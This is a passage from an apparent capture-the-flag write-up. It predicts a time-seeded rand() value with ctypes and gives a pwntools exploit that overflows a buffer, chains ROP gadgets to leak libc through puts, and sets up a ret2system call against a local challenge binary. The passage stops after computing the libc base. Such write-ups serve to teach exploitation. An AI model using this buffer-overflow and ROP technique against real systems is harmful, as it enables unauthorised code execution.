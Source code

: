 To find the rand() value, we can make use of ctypes in python. Thus the argument to win3() can be given by the script:
```python=
libc = CDLL("libc.so.6")
libc.srand(int(time.time()) & 0xffffff00)
rand_val = libc.rand()

st_rand = str(rand_val)
Sum = 0
for i in range(0, len(st_rand)):
	Sum += int(st_rand[i])
```

## Exploit:
Once we figure out the arguments to each of win functions, our task is get a libc leak, build a ropchain and ret2system. 
While passing arguments, one needs to note that they must be given in the reverse order. 

```python=
from pwn import *
from ctypes import CDLL

#p = process('./chall', env={"LD_PRELOAD" : "./libc.so.6"})
p = remote('localhost', 7007)
libc = CDLL("libc.so.6")
libc.srand(int(time.time()) & 0xffffff00)
rand_val = libc.rand()

st_rand = str(rand_val)
Sum = 0
for i in range(0, len(st_rand)):
	Sum += int(st_rand[i])

#gdb.attach(p)

p.recvuntil('Please enter your name: \n')

# gadgets:
pop_rdi = p64(0x0000000000401813)
main_ret = 0x00000000004017a9

arg2 = 0xfacefeed
arg3 = 0xc0cacede

pay = 'a'*0x28 + p64(Sum) + p64(arg3) + p64(arg2) + p64(0x183b02d47) + 'a'*0x8 + p64(0x00000000004017a9)
pay += pop_rdi
pay += p64(0x404018)# puts_got
pay += p64(0x00000000004010c0)# puts_plt
pay += p64(0x0000000000401774)# main_addr

p.sendline(pay)

out = p.recv(8)
out = u64(out[:-2].ljust(8, '\x00'))
info("leak: %s"%hex(out))

p.recvuntil('enter your name: \n')

libc_base = out - 0x875a0
system = libc_base + 0x55410
binsh = libc_base + 0x1b75aa

info("libc_base: %s"%hex(libc_base))
```